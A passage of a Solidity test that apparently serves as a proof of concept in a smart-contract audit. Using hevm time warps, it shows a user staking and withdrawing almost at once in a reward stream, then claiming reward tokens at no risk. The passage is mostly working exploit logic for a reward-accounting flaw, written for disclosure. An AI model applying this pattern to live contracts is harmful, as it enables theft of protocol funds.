 ```solidity
        address(testTokenA),
        address(testTokenB),
        uint32(block.timestamp + 10), 
        maxStreamDuration,
        maxDepositLockDuration,
        0,
        false
        // false,
        // bytes32(0)
    );
    
    testTokenA.approve(address(stream), type(uint256).max);
    stream.fundStream(1_000_000_000);

    // wait till the stream starts
    hevm.warp(block.timestamp + 16);
    hevm.roll(block.number + 1);

    // just interact with contract to fill "lastUpdate" and "ts.lastUpdate" 
// without changing balances inside of Streaming contract
    alice.doStake(stream, address(testTokenB), stakeAmount);
    alice.doWithdraw(stream, stakeAmount);


    ///// ATTACK COMES HERE
    // stake
    alice.doStake(stream, address(testTokenB), stakeAmount);

    // wait a block
    hevm.roll(block.number + 1);
    hevm.warp(block.timestamp + 16);

    // withdraw soon thereafter
    alice.doWithdraw(stream, stakeAmount);

    // finish the stream
    hevm.roll(block.number + 9999);
    hevm.warp(block.timestamp + maxDepositLockDuration);

    // get reward
    alice.doClaimReward(stream);


    // accounting (to proof attack): save the rewardBalance of alice / save balance of stakeToken
    uint EndBalanceA = testTokenA.balanceOf(address(alice));
    uint EndBalanceB = testTokenB.balanceOf(address(alice));

    // Stream returned everything we gave it
    // (doStake sets balance of alice out of thin air => we compare end balance against our (thin air) balance)
    assert(stakeAmount == EndBalanceB);

    // we gained reward token without risk
    assert(StartBalanceA == 0);
    assert(StartBalanceA < EndBalanceA);
    emit log_named_uint("alice gained", EndBalanceA);
}
```
